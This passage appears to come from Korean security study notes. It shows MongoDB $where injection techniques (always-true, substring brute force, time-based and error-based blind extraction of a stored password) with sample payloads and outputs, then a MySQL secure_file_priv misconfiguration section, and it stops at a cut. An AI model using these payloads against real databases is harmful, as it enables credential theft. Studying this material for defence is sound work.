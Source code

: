 - $where
```js
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
> db.user.find({uid:{$where:"return 1==1"}})
error: {
	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
	"code" : 17287
}
```

- $where && substring
```js
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

- Time Based
```js
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```

- Error Based
```js
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```

### DBMS Misconfiguration
- MySQL
```sh
# my.cnf
[mysqld]
# secure_file_priv = ""   # 미설정. 기본 설정 값으로 설정됩니다.
secure_file_priv = "/tmp" # 해당 디렉터리 하위 경로에만 접근 가능합니다.
secure_file_priv = ""     # mysql의 권한이 가능한 모든 경로에 접근이 가능합니다.
secure_file_priv = NULL   # 기능이 비활성화 됩니다.
```
```sql
mysql> select @@secure_file_priv;
+-----------------------+
| @@secure_file_priv    |
+-----------------------+
| /var/lib/mysql-files/ |
+-----------------------+
```
`load_file & into outfile:`